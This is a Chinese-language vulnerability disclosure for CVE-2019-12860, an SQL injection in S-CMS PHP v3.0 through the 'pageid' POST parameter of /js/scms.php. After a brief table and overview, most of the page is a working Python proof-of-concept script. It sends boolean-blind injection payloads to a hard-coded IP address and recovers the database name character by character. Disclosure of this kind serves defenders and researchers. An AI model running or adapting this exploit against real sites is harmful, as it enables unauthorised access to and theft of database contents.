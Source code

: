### 漏洞简介 

|漏洞名称|上报日期|漏洞发现者|产品首页|软件链接|版本|CVE编号|
--------|--------|---------|--------|-------|----|------|
|S-CMS PHP v3.0存在SQL注入漏洞|2019-05-31|zhhhy|[https://www.s-cms.cn/download.html?code=php](https://www.s-cms.cn/download.html?code=php) | [https://www.s-cms.cn/download.html?code=php](https://www.s-cms.cn/download.html?code=php) |PHP v3.0| [CVE-2019-12860](http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-12860)|  

#### 漏洞概述 

> 漏洞代码位置：/js/scms.php 第182-204行,在第83行处，变量$pageid接受使用POST方式传递的pageid的值。而在第87行和第95行处，变量$pageid被直接拼接进SQL语句之中，从而产生注入。而由于是数字型注入，避免使用单引号等符号以至于绕过了防御。 

### POC实现代码如下： 

> 构造如下poc.py 

``` python
import requests
import urllib.parse

chars = 'ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz_0123456789'

url='http://106.14.144.32:2000/js/scms.php'

def getDatabaseLength():
    print('开始爆破数据库长度。。。')
    for i in range(10):
        payload="1%0Aand%0Aif(length(database())>{},1,0)#".format(i)
        payload=urllib.parse.unquote(payload)
        data = {
            'action':'jssdk',
            'pagetype':'text',
            'pageid':payload
        }
        # print(data)
        # data = urllib.parse.unquote(data)
        # print(data)
        rs = requests.post(url=url,data=data)
        rs.encode='utf-8'
        # print(rs.text)
        if "20151019102732946.jpg" not in rs.text:
            print("数据库名的长度为：{}".format(i))
            return i

def getDatabaseName():
    print('开始获取数据库名')
    databasename = ''

    length = getDatabaseLength()
    # length = 4
    for i in range(1,length+1):
        for c in chars:
            payload='1%0Aand%0Aif(ascii(substr(database(),{},1))={},1,0)#'.format(i,ord(c))
            # print(payload)
            payload = urllib.parse.unquote(payload)
            data = {
                'action': 'jssdk',
                'pagetype': 'text',
                'pageid': payload
            }
            rs = requests.post(url=url, data=data)
            rs.encode = 'utf-8'
            # print(rs.text)
            if "20151019102732946.jpg" in rs.text:
                databasename = databasename+c
                print(databasename)

    return databasename
getDatabaseName() 
```